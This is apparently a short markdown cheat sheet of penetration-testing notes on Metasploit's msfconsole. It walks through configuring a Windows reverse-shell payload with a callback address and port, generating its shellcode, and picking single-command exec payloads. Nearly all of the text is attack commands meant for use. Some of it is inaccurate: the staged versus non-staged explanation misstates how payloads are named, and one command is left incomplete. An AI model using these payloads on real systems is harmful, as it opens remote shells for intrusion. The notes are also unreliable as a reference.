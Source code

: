 # msfconsole

## Msfconsole Have a the Keyword "generate" that Generates Shell Code. So, First Select a Payload

```bash
use payload/windows/shell_reverse_tcp
```

### Now, Set Variables as Usual

```bash
set LPORT 5555
set LHOST 192.168.0.101
```

### Now Generate Shell Code Using the Command "generate"

```bash
generate
#to see the options use generate -h
```

## If Meterpreter Goes In and Out, Change Payload

```bash
set payload linux/x86/
```

* switch to staged or non staged

## Staged Payloads

* they will have /meterpreter/ in front of payload

## Non-Staged Payloads

* they will not have /meterpreter/

## Single Commands in Windows

### If there is Limited Space and Only a Single Command is Needed Use

```bash
use payload/windows/exec
```

```bash
use payload/cmd/windows/generic
```

## Resources

* [https://netsec.ws/?p=331](https://netsec.ws/?p=331)


